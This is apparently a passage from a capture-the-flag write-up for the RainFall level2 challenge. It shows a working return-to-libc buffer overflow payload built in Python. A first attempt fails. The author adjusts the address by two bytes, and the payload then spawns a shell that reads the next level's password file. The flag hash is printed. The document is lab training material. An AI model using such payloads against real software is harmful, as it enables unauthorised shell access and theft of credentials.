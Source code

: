```bash
level2@RainFall:~$ python -c 'print("A" * 80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\xbf\xf8\xff\xbf")' > /tmp/payload
level2@RainFall:~$ cat /tmp/payload - | ./level2 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>AAAAAAAAAAAA>`����巿���
sh: 1: in/sh: Permission denied
```

Trying with the address given by getenv(), it is not working and it seems that it used the string “in/sh” instead of “/bin/sh”. So we will try to step back from 2 bytes to have the complete string :

```bash
level2@RainFall:~$ python -c 'print("A" * 80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\xbd\xf8\xff\xbf")' > /tmp/payload
level2@RainFall:~$ cat /tmp/payload - | ./level2 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>AAAAAAAAAAAA>`����巽���
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

OMG DONE !!!

```bash
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

**492deb0e 7d14c4b5 695173cc a843c438 4fe52d08 57c2b071 8e1a521a 4d33ec02**